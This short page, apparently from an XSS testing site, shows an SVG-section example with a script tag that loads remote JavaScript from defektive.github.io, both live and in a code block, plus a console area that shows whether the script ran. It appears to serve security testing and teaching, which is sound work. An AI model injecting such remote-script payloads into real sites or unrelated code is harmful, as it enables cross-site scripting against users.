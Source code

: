 # [XSS](/xss/) / SVG


## Examples
**If data shows up here after the 1 second delay, that means the JS was executed.**
<pre id="xss-console-log"></pre>


### Script Tag

<script src="https://defektive.github.io/xss/dist/xss.js"></script>



```html

<script src="https://defektive.github.io/xss/dist/xss.js"></script>

```
